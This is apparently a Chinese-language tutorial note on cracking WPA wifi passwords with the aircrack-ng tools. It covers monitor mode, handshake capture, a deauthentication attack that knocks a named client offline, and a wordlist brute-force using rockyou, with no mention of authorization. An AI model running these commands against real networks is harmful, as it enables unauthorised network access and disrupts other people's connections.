# 破解wifi

使用arimon-ng破解wifi密码

## 连接ALFA

使用虚拟机需要在services.msc里面打开vm usb枚举


插上ALFA之后



在这里选择

然后使用ifconfig查看是否有wlan0



## 抓包

使用`airmon-ng start wlan0`开启监听模式



`iwconfig`查看网卡信息



airodump-ng wlan0开始扫描wifi



抓取握手包

airodump-ng --bssid [mac地址] -c 信道 -w 包存放的位置 



开启另一个终端攻击其内网机器使其掉线，设备再次连接时候会发送我收吧，我方伪装成wifi热点去窃取数据包（哈希加密）

```
aireplay-ng -0 10 -a 20:6B:E7:23:60:EE -c CC:6B:1E:8B:E4:AF wlan0 --ignore-negative-one

-0 10  攻击十次
-a 指定路由器mac
-c 指定客户机mac
--ignore-negative-one 如果AP工作频道不确定加上，客户端MAC地址在之前通过airodump-ng获取。
```



显示这个则抓取成功




去文件夹下查看




## 破解

### gzip -d/usr/share/wordlists/rockyou.txt.gz

解压kali自带的字典



键入 aircrack-ng -w 字典路径 握手包路径（.cap）回车后开始爆破



开始爆破




